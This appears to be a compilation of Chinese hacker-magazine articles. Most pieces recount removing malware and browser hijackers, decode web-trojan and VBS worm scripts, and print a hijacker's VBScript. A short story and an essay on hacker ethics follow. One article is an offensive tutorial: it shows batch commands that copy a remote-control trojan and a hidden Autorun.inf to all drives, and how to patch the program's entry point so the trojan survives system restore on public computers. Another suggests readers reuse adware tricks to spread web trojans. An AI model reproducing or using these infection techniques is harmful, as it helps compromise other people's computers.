- 2. 获取Src地址后，点击“Send to Links Parser”按钮，在“Links Parser”标签栏中可看到过滤出的Src地址，前几个为关键网址（如图2）。
- 3. 依次查看这些网址源码，发现“show.jpg”“shows.jpg”用于触发，网马地址藏在“cqqtemp.css”“cqqskin.css”文件中；其中包含类似“vmware_exe="\x25"+"\x75"”的十六进制编码，需进一步解码（如图3）。

“Decode Hex”，如图4，在弹出的对话框中填入“\x”，然后点击“OK”进行转换，如图5。

进行16进制转化后的结果为“vmware_exe="%u"”，这样一来“cqqskin.css”文件的源码就变成了图6、图7所示的这样。代码中定义了“taskmgr_exe”和“Msdos_exe”两个变量，我们使用“unescape”函数对这两个变量进行解密处理，然后将代码保存到本地，通过修改代码来输出这两个变量；在头部对“vmware_exe”进行定义，也就是插入代码“vmware_exe="%u"”，并将相关“unescape”改写为“document.write”，最后补全script标签并保存为HTML运行。

```javascript
vmware_exe="%u";
// 由 cqqskin.css 解码得到的大量 %uXXXX 字符串数据
// 并通过 document.write 输出 taskmgr_exe、Msdos_exe 等变量内容
```

- 4. 我们复制“%a”那一串字符到Malzilla中的“Misc Decoders”栏，点击“UCS2 To Hex”先转化成16进制，如图9，然后再将这段16进制字符以“Paste as Hex”的形式粘贴到顶部右边的“Hex”框中，这样就得出了下载地址，如图10。

至此网马的地址就全部解密完成了。将网马下载到本地后我本想使用OD跟踪一下，但被同事制止了，他告诉了我一个省时省力的在线分析网站：http://camas.comodo.com/cgi-bin/submit 。对样本进行提交后不一会儿分析结果就出来了，如图11、图12。好家伙，动作可真多，映像劫持、新建服务、驱动，比对着分析结果把相应的文件及注册表值一一删除后，就把中毒的电脑给搞定了，这次的抓马行动相信小菜们都看懂了吧！

> （文章中所用到的Malzilla已收录到光盘中）

## 马病毒 WIN32.KUKU.GEN 的一场战斗

昨天同学说他的U盘坏了，在自己的电脑上识别不出来，于是我就拿到我的电脑上来试了一下，还是我的电脑够牛，很顺利地就识别并读取出了内容。同学问我前段时间非常火的电影《暮光之城》还在不在U盘里，我顺手就点开了一个文件夹，没想到这真是一失足成千古恨哟，之后的麻烦就接踵而来，先是电脑蓝屏死机，重启电脑后，发现注册表、任务管理器等都被禁用了。看来情况非常不妙，虽然具体的情况还不了解，但中病毒应该是没错了。不管怎么说，我也是跟病毒打过交道的小菜，决不能这么乖乖地屈服于病毒的淫威下。

开始时一点儿头绪也没有，只能先对症下药了。中毒后的症状第一个就是蓝屏，这个具体是什么原因，确实不好找，我读不懂蓝屏的那些代码，再说它就蓝屏了一次，就算我再想去看也没机会了。第二个症状是任务管理器、注册表编辑被禁用，首先假设是设置的问题，因为注册表编辑器无法使用，所以调用任务管理器的方法只能从组策略中进行设置。点击“开始”->“运行”，在“运行”栏中输入“gpedit.msc”，点击确定后打开组策略，定位到“用户配置”->“管理模板”->“系统”->“Ctrl+Alt+Del选项”，在右边的窗口中选择“删除‘任务管理器’”，然后点击右键选择属性，在“设置”中选择“未配置”，如图1。

# 毒瘤


图1


图2


图3


图4


图5


图6

确定后，我试着调出任务管理器，可结果依然是提示任务管理器被禁用，如图2。接下来我就想使用同样的方法来修改禁用注册表编辑器的问题，同样在“开始”->“运行”栏中输入“gpedit.msc”打开组策略，定位到“用户配置”->“管理模板”->“系统”，双击“禁用注册表编辑工具”，选择“未配置”，点击“确定”，可结果依然是令人失望的，如图3。

看样子只能请出手动杀毒工具冰刃和wsyscheck了。首先使用wsyscheck查看了一下系统进程，发现冒出了两个notepad.exe，很明显其中有一个就是病毒，如图4。我到网上搜索了一下，果然有人曾经碰到过这种情况，我还以为是中了notepad.exe病毒，可结果却不是那么回事，因为对方的症状和我电脑的表现存在着相当大的出入，似乎我这小小的电脑里存在的还不止一种病毒。看来这场战争，不是轻易就能搞定的。

我借用冰刃打开了注册表，果然不出所料，“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System”下的“DisableTaskMgr”和“DisableRegistryTools”中的DWORD值均为00000001，如图5。右击将值修改为0后，注册表和任务管理器就都可以使用了，如图6。但是只正常了一会儿就又被禁用了，我刷新了一下注册表，发现那两个值又自动恢复到00000001了，看来有exe文件与注册表存在关联。我查看了一下Run和RunOnce下面的选项，把所有的值都给删除了，可那两个值依旧会自动恢复。

实在不行了，我只好请出高科技武器——杀毒软件，匆匆忙忙地从网上下载了一个瑞星。只扫描了C盘就吓我一跳，N多的病毒呀。不过好在瑞星还提供了许多有用的信息，原来这个病毒名称叫做win32.kuku.gen，现在终于可以对症下药了。就在这时，文章开头所提到的症状又出现了，再一次见识到了病毒的残忍。

冷静地分析了下，首先病毒是通过U盘感染了电脑中的exe文件，也就是说，知道了病毒的来源是U盘。因为我打开了里面的某一个文件，所以导致了全盘exe文件的感染。要治本，就得先治标，要先把被感染文件的病毒清除掉。我找出一个被感染的文件TM2009Beta2.0_chs.exe，用瑞星查杀了一下，果然发现有病毒，选择清除病毒，提示清除成功。我又试了下TM2009Beta2.0_chs.exe，发现完全可以安装，看来瑞星完全可以清除掉这个病毒；这下就好办了，清除被感染文件病毒的重任就交到瑞星手里了。因为安全模式进不去，我只好在“开始”->“运行”栏中输入“msconfig”调出系统配置实用程序，选择“诊断启动”，又把所有的开机启动项取消掉，如图7。重启电脑后尝试进入安全模式，发现还是进不去，也不管了，直接断网打开瑞星进行全盘杀毒。

“DisableTaskMgr”和“DisableRegistryTools”中的DWORD值再一次修改为0，完成后重新在“开始”->“运行”栏中输入“regedit”，点击确定后，久违的注册表终于出来了。再来看任务管理器，同样也出现了。现在终于是彻底搞定了，花了一整天的时间，总算是把WIN32.KUKU.GEN病毒从我的电脑中清除了。

最后我又在“开始”->“运行”栏中输入“msconfig”调出系统配置实用程序，把启动方式选择为正常启动，如图9。重启电脑后，就像什么事情都没有发生一样，电脑终于恢复自由了！


图7


图8


图9

杀了一遍又一遍，估计至少四遍吧，彻底没有病毒了。当然杀毒过程中也发现有些顽固的病毒清除不了，只好忍痛割爱把那些文件删除了。好在这类情况不是特别多，主要是被win32.kuku.a和win32.kuku.j感染的文件有一部分无法清除，只能删除文件。虽然全盘查杀非常耗时间，但是没办法，只能如此了，毕竟重装系统一样会被感染。当然如果我们选择全盘格式化，那就没必要全盘杀毒了。在查杀了3-5遍确定不存在win32.kuku.gen、win32.kuku.a、win32.kuku.j这三种病毒后，就可以说系统已经干净了，病毒也算是清理完毕，这场战争也基本宣告胜利了，如图8。

此时，战后的处理还没有结束。我们在“开始”->“运行”栏里输入“regedit”打开注册表，结果依然是“注册表被管理员禁用”，按CTRL+ALT+DEL也一样是弹出任务管理器被禁用。不过既然已经没有病毒了，那么就一定是注册表在作怪。使用冰刃打开注册表并定位到“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System”，把“DisableTaskMgr”和“DisableRegistryTools”中的DWORD值再修改为0。

（文章中所用到的冰刃、wsyscheck中文版已收录到光盘中）

# 这个“流氓”挺狠

猪脸&马乐乐

常言道：常在网络泡，哪有不“挨刀”？网络中的流氓软件愈演愈烈，也貌似一个比一个牛。虽然各大安全软件也不是吃素的，但正所谓道高一尺，魔高一丈，终究也会有几个能够逃过安全软件的法眼。我这次遇到的“流氓”并不厉害，但是挺猖狂的，就拿来博众位看官一笑吧。

某年某月的某一天，我正在睡觉，突然电话铃响了起来，拿起手机一看原来是乐乐在CALL我，赶紧接上。原来是乐乐的电脑被“流氓”了，NND，敢“流氓”乐乐的电脑，就是“流氓”乐乐，敢“流氓”乐乐，就等同于“流氓”我，那还得了！我马上跑过去看了看，原来是浏览器主页被篡改了，改成了一个www.1**118.com的上网导航网，如图1。我又打开IE的Internet选项，发现上面的主页还是她以前的QQ空间地址，如图2。看来，极有可能是注册表被修改了，但我在注册表里搜索www.1**118.com这个网址，竟然没有找到，如图3。

我挠了挠头，请出360安全卫士来清理插件，竟然也没有查出什么，如图4。没办法，我就想……


把IE删掉了，再重建一个，但就在这时让我发现了猫腻，如图5。大家也都看出来了吧，这个一看就是后来新建的，再来看看它的属性，如图6。在“快捷方式”的“目标”栏里发现了“C:\Program Files\Internet Explorer\IEXPLORE.EXE”后面还跟着“http://www.1**118.com”，原来是这样猥琐的劫持方法啊，怪不得360查不到呢，直接把后边的“http://www.1**118.com”删除掉就OK了。清除完了恶意网页，乐乐用敬佩的目光看着我，呵呵，我也乐了。

# 菜鸟对抗恶意软件

### 之一 颗心主页再现

匠夫


从某电子书网站下载了一些电子书，其中有一个.exe后缀的文件。由于以前也曾经使用过exe格式电子书，所以没有在意，但运行后发现电脑桌面上多出了几个图标（小游戏、免费电影、IE），IE浏览器主页也被更改，这才发觉中招，如图1。


使用瑞星卡卡查看系统“启动项”，发现多出两个文件，一个是22.vbs，另一个是sys.exe。根据提示定位到c:\program files\systemfiles并删除，如图2。随后又检查相关文件夹、桌面图标、注册表项、启动项，并把IE主页设为空白。重启后看似正常，但打开360浏览器时主页仍自动跳转到陌生网站，如图3。


真是奇怪，一时想不起该从何处入手，于是决定“从头开始”。把可疑文件从回收站恢复，先用记事本打开22.vbs，发现开头内容如下：

```vb
Dim WSHShell
Set WshShell = WScript.CreateObject("WScript.Shell")
strDesktop = WshShell.SpecialFolders("Desktop")
Favorites = WshShell.SpecialFolders("Favorites")
on error resume next
strWinDir = WshShell.ExpandEnvironmentStrings("%ProgramFiles%")
createobject("wscript.shell").run """&strWinDir&"\systemfiles\3.bat""",0
```

该文件使用VBScript语言，最后一句运行3.bat批处理文件。随后打开3.bat，发现里面是删除桌面IE图标、查找www.977dh.com相关内容，并继续调用脚本。

```vb
createobject("wscript.shell").run """&strWinDir&"\systemfiles\3.vbs""",0
```

使用记事本打开3.vbs文件，在开头看到如下信息：

```vb
Set WshShell = WScript.CreateObject("WScript.Shell")
strDesktop = WshShell.SpecialFolders("Desktop")
Favorites = WshShell.SpecialFolders("Favorites")

Sub Doits888(lnkfz)
Dim oldpath,newpath
oldpath = lnkfz
newpath = "http://www.977dh.com/?360"
Set Wsh = WScript.CreateObject("WScript.Shell")
Set fso = CreateObject("Scripting.FileSystemObject")

Folders = Wsh.SpecialFolders("AllUsersDesktop")
Set f = fso.GetFolder(Folders)
Set fc = f.Files
For Each fl in fc
  ext = LCase(fso.GetExtensionName(fl))
  if ext = "lnk" then
    Set oShLnk = Wsh.CreateShortcut(fl)
    If InStr(oShLnk.TargetPath,oldpath) > 0 Then
      oShLnk.Arguments = newpath
      oShLnk.Save
    End If
  End If
Next
```

看到newpath那行了吗？与打开360浏览器时跳转的网址一致。3.vbs文件结尾是：

```vb
Call Doits888("TheWorld.exe")
Call Doits888("Maxthon.exe")
Call Doits888("360SE"&".exe")
Call Doits888("TTraveler"&".exe")
WScript.quit
```

Doits888函数就是调用浏览器，程序作者真是绝呀，竟然把常用的浏览器都给添加上了。注意到“lnk”了吗？这是文件快捷方式的后缀，向下看“oShLnk.Arguments = newpath”，就是把newpath（newpath = "http://www.977dh.com/?360"）赋给了oShLnk.Arguments，oShLnk.Save应该是保存的意思。

看来问题与快捷方式有关，在360浏览器的图标上点鼠标右键，选择“属性”->“快捷方式”，可以看到“目标”栏里的内容是“F:\Program Files\360\360se3\360SE.exe”后面那个正是我打开360浏览器时自动跳转到的网页。把它去掉，重新还原成“F:\Program Files\360\360se3\360SE.exe”进行保存，再次打开360浏览器，这回变成空白页了，成功了 :)

这种打开指定网页的方式与我们常见的修改IE主页的方式有所不同，希望大家再碰到这类问题时能够有所注意。


# “糖果”看我怎么吃掉你！

近日小菜我新买了一部手机，为了让自己的手机显得更个性一些，我就从网上下载了一款名叫“蓝光影音Mp3分割器”的工具来自制手机铃声。说实话，这个软件的应用效果还算不错，简便又实用。但好景不长，第二天打开电脑时发现桌面上出现了一个“糖果浏览器”的图标，打开IE和火狐浏览器，发现默认主页全部被更改为“http://www.tg1234.com/?164”了。难道这是因为我昨天安装的“蓝光影音Mp3分割器”而造成的吗？果不其然，当我打开“蓝光影音Mp3分割器”的安装目录后，赫然看到了一个文件——“糖果浏览器.exe”。好你个糖果浏览器啊，竟然敢侵入到本小菜的电脑中，看我怎么“吃”掉你！

说干就干，首先将眼前这个扎眼的EXE文件删除掉，然后把与它相关的所有快捷方式也统统干掉（因为我还想使用“蓝光影音Mp3分割器”，所以没有选择直接卸载软件），再把被更改的主页修改回来，返回到桌面后立刻发现IE变成了如图1所示的样子。

很显然，“糖果”是通过将原IE替换成快捷方式后，再在其指向目标后加入参数使其带参数运行来实现修改主页目的的。在IE的快捷方式上点右键打开属性项后便可以清楚地看到了，如图2、图3。将“目标”栏中后面的“http://www.tg1234.com/?164”删除后再点确定，然后打开IE和火狐浏览器，就会恢复到之前的主页了。


本以为这样就大功告成了，但在打开网页书签的快捷方式时却出了问题，系统竟然提示我要选择打开方式。在快捷方式上点击右键，我在右键菜单中看到了一个令我气愤的选项——TangoBrowser，如图4。后来想到用注册表搜索关键字“tango”，把相关项清理掉。

说实话，当时我也只是凭感觉做的，不是太明白其中道理。但看到如图5后就恍然大悟：它在网页文件的打开方式上做了手脚，把打开方式都指向了“糖果浏览器”。删除相关键值后恢复默认，问题就解决了。

啊？没错，正如大家所想的那样，它是在网页文件的打开方式上做了手脚，将打开方式都指向了“糖果浏览器”，致使我将“糖果浏览器”删除后系统就会找不到程序来打开网页，自然也就会有打开方式的选择提示了！

# 查杀装系统后流氓软件+木马

因为我的爱机中病毒瘫痪了，无奈之下只好重装系统。系统恢复后却没有声音，于是决定下载针对XP系统的声卡驱动程序。

在网上搜索后下载了一个压缩包。双击打开时却出现异常提示，随后又弹出安装成功信息；我继续查看系统进程，发现了可疑进程（如图3）。


“好压”软件？这是什么东西？我打开搜索后发现这居然是一款软件，并且安装时还打开了一个网页地址（文中给出URL）。

- 真可笑，标题还显示是绿色的首页。


关闭网页后又出现了IE错误提示。更让人郁闷的是，桌面上还出现了一个新图标，明显属于流氓推广内容。


如图7。这次我学乖了，先点击右键查看了一下，结果如图8所示。有意思，“打开方式”后面居然显示的是“未知应用程序”，先来查一下毒。可没想到，杀毒软件已经“牺牲”了。360啊360，为什么你死得这样惨，把这么艰巨的任务交给我……


重新找到那个下载的文件，点击右键查看，“文件类型”竟然显示的是“应用程序”，如图10。不过我们可以使用WinRAR查看里面的文件，有两个？不对啊，没有配置文件它是如何“服从命令”的呢？仔细一看，发现在上面的广告栏怪怪的，竟然是配置文件的格式，原来这样也可以呀！


正式开始，深呼吸，同时整理一下思路：既然杀毒软件用不了，就应该是注册表在作怪，来找找看。打开注册表后，定位到HKEY_LOCAL_MACHINE\SOFTWARE\HaoZip，看到了3个键值，如图9，没什么可以利用的。而且我发现注销系统后杀毒软件又恢复了，所以可以排除注册表的问题。使用360浏览器隔离模式打开那个奇怪的文件，居然没有病毒？而且，这是个网页文件，那为什么不直接展示网页文件呢？一系列问题在我脑海中萦绕，最重要的是此时没有什么异常情况。已经瘫痪的360也没有“逃离”通知区域，可以正常打开，当然，功能已经丧失了。

将那两个文件打开查看，其中一个文件引起了我的注意，就是它了，如图11：IE Security？感觉比较熟悉，好像在哪儿见过，到百度上一查，天哪，竟然是一款木马下载器，不过还好，网上已经有清除教程了。


按照网上介绍的方法进行清除，终于还系统一片宁静了。不过，还有很多问题没有搞清楚：第一，既然是木马下载器，那为什么杀毒软件不报毒？第二，仅仅有两个程序，为什么出现那么多不自然？这一切，就交给友子们去帮我解决吧！这次经历让我学到了很多东西：那两个网站（弹出的“绿色首页”和生成的“淘宝特卖”）如果换成我们想要增加流量的网站地址，不就可以帮我们增加人气了吗？而如果换成我们的挂马网页呢？还有，利用压缩包伪装的技巧也可以帮我们很多忙！

> （文章中所涉及到的zip压缩包已经收录到了光盘中）

## 解密分析vbs脚本病毒

## 一、起因

前些日子在机房上网，无意间发现一个不被还原的磁盘中的文件有异常，文件夹都带有快捷方式的小箭头，查看属性后发现它们都指向了一个vbs文件。我本来就有收集病毒的癖好，当时也没有多看，直接就把这个脚本文件复制到U盘上了。

话说当天我刚回到宿舍，就有同学说电脑中毒了。看了下满盘的快捷方式，我就知道是怎么回事了，因为我的U盘有写保护，所以直接使用U盘里的Dr.Web来了个全盘查杀，删除了快捷方式后就走人了。谁知第二天那位同学说“我的电脑”打不开了，一打开就提示说XXX脚本找不到。我就想八成是修改注册表了，可惜原来的注册表没有做过备份，我也没有带自己的电脑（在学校里带电脑是要先写申请，批准了后才能带的），手头没有什么工具，看来只能从那个脚本文件下手了。

## 二、解密

我马上借来了一个笔记本电脑，开工。结果打开那个脚本文件一看，当时就傻眼了，全是乱码，如图1。我硬着头皮看了看，发现了一些规律。大家都知道vbs其实还是Basic语言，和VB极其类似，“on error resume next”是让程序忽略错误并继续执行。看看第一行，虽然乱七八糟的，但是却一个字母都不差，只不过顺序有些颠倒而已。颠倒了顺序之后是不能作为语句执行的，所以前面有了一个“'”，这是vbs中用来添加注释的，也就是说后边的语句是不执行的，下面的几行语句也都是一样。于是我猜测，这个病毒在运行的时候先进行解密，也就是把单引号去掉，再颠倒字母的顺序，使之排列成标准的脚本代码，然后再执行解密后的脚本。

既然如此，那么我们也可以将解密后的文件保存下来，然后……后通过代码进行分析。如何找到那一段解密脚本呢？其实很容易，真正要执行的语句前面是没有单引号的，所以我就在文件里面找到了这样的一段代码，如图2所示。好长的一行代码，看起来还真费劲，我把它修改了一下，弄成了我们比较常见的格式。

代码太长，我挑重点来说，A、B、C是三个函数，作用就是颠倒字母位置、大小写转换等加解密操作，至于是怎么实现的，有兴趣的朋友可以研究一下。最后有一个 execute fbbe 语句，按照一般的逻辑，解密完成后就应当执行了，这里显然就是调用执行，那么 fbbe 变量中（变量名很奇怪，病毒作者就是这么写的，我也没办法）保存的要么是解密后病毒的内容，要么就是解密后病毒的路径。根据前面的一些赋值，最后我认定这里保存的就是病毒解密后的内容。如果我们不需要它运行，只需要把它保存到文本文件中就可以了，所以我把它删去了，把前面的两句改成了：

```vb
Set C013=B830.OpenTextFile(G.解密后.txt,2,1)
C013.Write fbBE
C013.Close
```

保存后运行这个脚本文件，就会得到一个解密后的脚本文件了。至此，脚本解密完成。

## 三、善后

拿到了病毒的原始脚本我们就可以进行分析了（脚本内容非常多，详见光盘中收录的文件，我只拣结论给出来）。首先看到了好多注册表修改项，不用管它修改了什么，直接恢复默认即可。什么？不知道默认值？具体的项都知道了，到正常的电脑上看看不就知道了吗！我把“我的电脑”“文件夹选项”中的相关注册表项都导出来了，大家实在找不到的话直接导入就能修复了。大家继续往下看，这个病毒确实够恶毒的，文件关联也被更改了，还更改了很多，什么 cmd、bat、txt、hlp、chm 等都被更改了，最可怕的就是注册表都更改了，没法双击导入，但好在还可以使用注册表编辑器。

病毒还在 system 目录下创建了一个 svchost.cxe 文件，其实这是脚本宿主，直接删掉就行了。至于文件关联的恢复，我们可以在删除病毒体的前提下（病毒会自动关闭 cmd、任务管理器和其它常用安全软件）打开 cmd，使用 ftype 命令来恢复 bat 的关联，再使用批处理（已收录光盘中）恢复其余的文件关联。至此，善后工作圆满完成！

## 四、后话

距离那个病毒的清除已经有一段时间了，在网上看到还有很多人中了这个病毒的招。杀毒软件对脚本病毒只有查杀却没有修复，这确实让我们很郁闷。毕竟脚本病毒的查杀是很困难的，加密的方法也是多种多样。比如前几天我又拦截到了一个病毒，里面使用了 ASCII 码转换了很多字母，导致杀毒软件对其完全没有反应，几乎是全免杀的。等到文件运行后再对其查杀时，注册表等多处也都已经被修改了。所以大家千万要注意，遇到这种病毒不能一杀了之，要先收集病毒样本，解密分析之后再作处理。


（文章中涉及到的相关脚本文件以及修复文件，已经收录在了光盘中）

# 让木马逃过系统还原的提示

现在很多公共场所的计算机都采用了系统还原功能，即在计算机每次重新启动后自动还原系统 C 盘，以达到防范木马病毒入侵的目的。这样，连小菜们种的木马也都会在重启系统后被系统还原功能所抹杀。要破除系统还原？明显不太可能，因为一是不知道对方所使用的还原软件是什么，二是破解后很容易被对方察觉。难道面对这样的问题，小菜们就只能望而却步了？当然不，我们要相信一切皆有可能，这才是黑客精神！好了，闲话少说，让我们开始进入正题！

# 毒宠

我说一下大致的破解思路，大家对 U 盘病毒都不陌生吧；也应该知道一个名为“Autorun.inf”的文件，U 盘病毒就是通过这个文件来达到传播病毒的目的……

下面我就以远控木马 MiniRat1.4 为例进行说明，先使用 zeroadd 给生成的木马客户端新增一个区段……并在 ASCII 框内写入以下代码，如图2所示：

```bat
&if %cd%==D:\ start D:
&if %cd%==E:\ start E:
&if %cd%==F:\ start F:  //打开其所在盘符
&copy server.exe d:\
&copy server.exe e:\
&copy server.exe f:\
&ATTRIB +h d:\server.exe
&ATTRIB +h e:\server.exe
&ATTRIB +h f:\server.exe
&copy Autorun.inf d:\
&copy Autorun.inf e:\
&copy Autorun.inf f:\
&ATTRIB +h d:\Autorun.inf
&ATTRIB +h e:\Autorun.inf
&ATTRIB +h f:\Autorun.inf  //复制文件并设置属性为隐藏
&del Autorun.inf  //删除临时文件
```

然后点击“确定”完成，注意上面的代码在输入时各命令间一定要使用“&”连接，并且在输入时不用分行……

给大家简单地解释一下，首先要说明的是上面为批处理代码，开头的“cmd /c”也就是执行完命令后关闭命令窗口……否则就不采取任何行动。


```asm
push CMD代码开始地址
call WinExec    //调用WinExec来运行CMD程序（注意大小写）
nop
jmp 原入口点地址
```


```bat
cmd /c echo [AutoRun]>Autorun.inf
&echo open=server.exe>>Autorun.inf
&echo shell\open=打开(&O)>>Autorun.inf
&echo shell\open\Command=server.exe>>Autorun.inf
&echo shell\open\Default=1>>Autorun.inf
&echo shell\explore=资源管理器(&X)>>Autorun.inf
&echo shell\explore\Command=server.exe>>Autorun.inf
//创建一个Autorun.inf文件
```

输入完毕后保存，然后打开 LordPE，把入口点地址改为“push CMD代码开始地址”这句代码的 R 偏移地址后就大功告成了……

当然，在此我只是简单地介绍了一下这个方法，其实它的利用价值远远不止本文所介绍的那样……

（文中所用到的 zeroadd、LordPE、OD 已收录到光盘中）

# 恋爱

## （1）

“寻找漏洞，登录后台，上传木马，拿到 webshell。耶，搞定！本月第101个战利品，得手！”

清晨，BIN 从网吧走出来，连蹦带跳的，活像个小丑，路旁遛狗的老太爷一边看着，一边感慨着，年轻人真是有活力呀！

“臭老鼠，昨晚又去哪儿了？留老娘一个人独守空房！”BIN 刚刚迈进家门，就被女友 ANN 揪了个正着。

“宝贝息怒，我还能去哪儿啊？老地方收战利品呢！”

“真是的，难道网络比我还有吸引力？成天入侵别人的电脑就那么有意思？”ANN 生气地问道。

“好了宝贝，今天是你生日，想去哪儿？”

“亏你还记得，拿银行卡来，我要和朋友逛街去。”

“好好好，老婆大人请慢走。”

## （2）

送走 ANN，BIN 又重新坐在电脑前，昨夜的忙碌本应该令他昏昏欲睡，可 BIN 的心中此时却被另一个人占据着，那就是——青鸟。

BIN 回想起昨天晚上，他正要上传木马时，屏幕上忽然跳出了一行字：老鼠，不要贪得无厌。黑客只是一种精神，不是你的玩具，下不为例！

对方竟然连自己的绰号都知道，他究竟是什么人？！经过寥寥数语的对话，BIN 终于知道了，青鸟是那家网站的管理员，昨天是最后一天当职。

BIN 从小就被誉为“鬼才”，不仅是因为学习新知识的能力和速度高人一等，计算机技术出神入化，更因为他那“唯我独尊”的个性，容不得别人比他强，哪怕只是强个半点。——青鸟引起了 BIN 的强烈兴趣，当然，还有一点的恼意。

## （3）

BIN 通过他的朋友多方打听，终于了解到，青鸟是一位颇负盛名的网络安全工程师，行踪诡秘，还知道青鸟是女的，毕业于 M 大。除此之外，就没有更多的线索了。

“M大？那不是 ANN 的学校吗？”

傍晚，ANN 拎着大包小包进了家门，口中还嘀咕着：“臭老鼠，还不过来帮忙。”

BIN 一反常态地没有去献殷勤，而是静静地坐在沙发上：“你认识‘青鸟’吗？”

ANN 似笑非笑地望着 BIN，“当然认识了，她可是 M 大的骄傲，比你这臭老鼠强百倍呢！”说着就将购物袋扔到了地上。

“你的意思是说她还是个名人了？那为什么我查不到更多的信息呢？”

“她一向都很神秘的，她不愿意被别人知道的事，那么别人再怎么做，也一定是无法得知关于她的一切的！”

“可笑！只要我‘老鼠’想，就一定能够知道！”

## （4）

接下来的一星期，BIN 终日眉头紧锁地坐在电脑前，不同的是他不再到处黑站，而是广布“威胁帖”：谁提供青鸟的线索，就答应他的任何要求。否则，就黑掉对方的电脑。

到了第七天，正当 BIN 打算放弃的时候，忽然收到了一封邮件，邮件的内容是这样的：老鼠，你就对我那么感兴趣？想见我很容易，何必做出这样的事？我青鸟不喜欢麻烦，给你一个任务，入侵我正在管理的网站，地址是 XXX，期限三天，若办到了，我就会和你见面；若是办不到，老鼠从此退出江湖！高傲的老鼠，你一定会接受的。期待你的好消息。

挑战书？有意思。三天？足够了！但事与愿违，BIN 用了两天的时间，尝试了几乎所有的办法，无论是传统的寻找注入点，还是暴字段、Cookie 欺骗、3389 登录、跨站，可全都行不通！

第三天，BIN 终于动用关系直接寻找空间商来“帮忙”了，可谁知空间商刚一进入服务器，屏幕上便出现了：老鼠，难道你喜欢这样的胜利吗？

BIN 的脸上红一阵白一阵，脸上的肌肉开始颤抖，双眼布满血丝，终于大吼一声：“我不甘心！”随后一拳重重地打在了墙壁上。

BIN 低头看了手表，距离三天的期限，只剩下最后十分钟了。

## （5）

“九千九百九十二，九千九百九十三……”BIN 蒙着眼睛走着，“九千九百九十九，一万！呼，终于……到了。”

BIN 摘下眼罩，眼前是广阔的草地，脚下一条湍急的小溪正流向城中。“KAO，再往前走一步就掉了！”

“喂，青鸟，我已经来了，你赶快出来吧！”BIN 喊道，可是四周仍然静悄悄的，太阳已经快落山了。

“混蛋！难道被骗了吗？”BIN 有些生气，“等等，这里是？好眼熟啊……”

“哼，臭老鼠，这里都能忘？”不远处的大树下走来一位少女，竟是——ANN！

“你……”还没等 BIN 说话，脑袋上就挨了一个暴栗！

“臭老鼠，今天是我们的纪念日，忘了吗？真是的，好不容易才把你从网络中拖出来，你竟然忘了这里是……”

“第一次约会的地方！”BIN 抢着说道，“我想起来了，怪不得眼熟呢！等等，难道‘青鸟’就是……”

“当然就是本小姐了！”ANN 笑着，金色的夕阳照在笑靥如花的脸上更加迷人，“堂堂 M 大毕业的我怎么能比臭老鼠差？！”

“可是……”

“可是什么？本小姐伪装得好累了。臭老鼠，我的身份被曝光就当作我的礼物了，至于你的……”ANN 说着微微闭上了眼睛，BIN 见状，缓缓地将火热的唇凑了上去……

美丽的夕阳将二人的影子，无限拉长……

## （尾声）

“喂，臭老鼠，赶快改名，本小姐可不想终日和老鼠在一起！”

“改什么呢？”

“就叫……恋安！”

或许，生活就是这个样子，如一杯清茶，淡淡的，并不浓郁。然而，那袅袅的、略带苦涩的清香，却总在你我不经意之间，弥漫了我们的周遭，只要留心，便能察觉。

或许，生活就是这个样子，并不总是时时顺利，也不能刻刻安逸。然而，无论经历过什么，岁月的印记中总有着一份信念，呼吸的空气中总藏着一些希望。

这信念，这希望，如同黑夜里的光，指引着我们背起行囊，勾勒起人生的轨迹。浪迹天涯的人最想念的，是故乡老宅的屋顶。其实，真正牵挂游子的，是屋顶下关心、理解、支持你的心灵，那是一份寄托，也是一种力量，一路走来，忘记孤独，没有哀伤。

人生之所以美妙，是因为它充满了梦想，也许那小小的梦想并不辉煌……最重要的是：我们在一起。沿着各自的方向，一起追逐，放飞希望。

# 凤凰城歌舞里的侠客情

我是老鸟&疾风舞

还记得当年的5月1日—5月7日吗？美国黑客组织 Poison-Box、Prophet、Hi-Tech 等，对中国发动了来自网络的攻击。为了捍卫祖国和民族的尊严，中国的黑客也进行了奋力的还击。当看到美国白宫网站被挂上了五星红旗，所有的爱国人士无不拍手称快。

时至今日，我国的网络信息产业也得到了飞速的发展。在发展的同时，中国黑客这一特殊的群体也在茁壮成长着，从最初的“绿色兵团”到各大黑客组织的成立，中国黑客一次又一次在捍卫祖国尊严的网络战场上展现了其独一无二的魅力。

黑客本身并不是贬义词，他们由于拥有高超的计算机水平、神出鬼没的行踪，使得人们对他们的印象大多是“神秘、高超”等。其实黑客并没有一个完整的定义，不过就现在的信息安全发展来看，黑客应该具备以下的技能：精通计算机各项操作、能熟练使用各种工具并了解其工作原理、有高超的编程（汇编等）技术、有冷静沉着的心理素质、善于和别的黑客交流等等。由于其技术和道德品质的不同，黑客往往被分为两类：黑客和伪黑客（骇客）。

有人将黑客比喻成药，在治愈疾病的同时也会带来一定的副作用。黑客精神，是一种自由与共享，是身陷困境却寻求突破与解脱的追求，这是每一个走进黑客世界的人所向往的境界。但现今的社会开始走向和平与稳定，这使得一些黑客失去了文争武斗的舞台。老一辈黑客由于年纪较大，开始了“宅人”生活，他们大多以安全顾问以及安全公司的身份出现在网络中。

在这样的背景下，一群年轻人怀着对祖国的热爱和对黑客神秘的崇拜，开始了他们的追求，但更多的则是沉迷于雕虫小技的卖弄，掉进了黑色经济的大染缸里……从打着“爱国主义”旗号、“保护自己信息安全”等口号的伪黑客培训班到公开贩卖所谓“顶级”的黑客工具。

传统的黑客已经为数不多了，千百个网络流氓跳了出来。利用拒绝服务攻击、盗号等手段进行敲诈、倒卖的“黑金效应”，使得渴求利用黑客技术一夜暴富的流氓蜂拥而至。由于互联网本身的脆弱性和网络服务提供商的漏洞，使得这类黑色经济疯狂地滋长着。

一些注重自我得失而敢于铤而走险的年轻人，他们不再愤怒于靖国神社扭曲历史，各大色情、赌博站点成了他们的聚居地。他们打着复制、抄袭、改写等“创新”而四处出击，各类程序上都留下了作者和联系方式，他们不再羞羞答答，而是惟恐天下不知地到处叫卖着自己所谓的作品。

黑客那种侠客精神也许会在这些年轻人中间永远消失，他们更多看中的是金钱、名誉、地位……他们忘记了当初自己为什么走进黑客这个圈子，也许他们只是为了那些虚无的东西，技术只是让他们名利双收的工具罢了。

让我们带上耳机，听听那首《黑客独白》熟悉的旋律吧，为失去理想的黑客唱一首挽歌吧：

世界总是说你说我，  
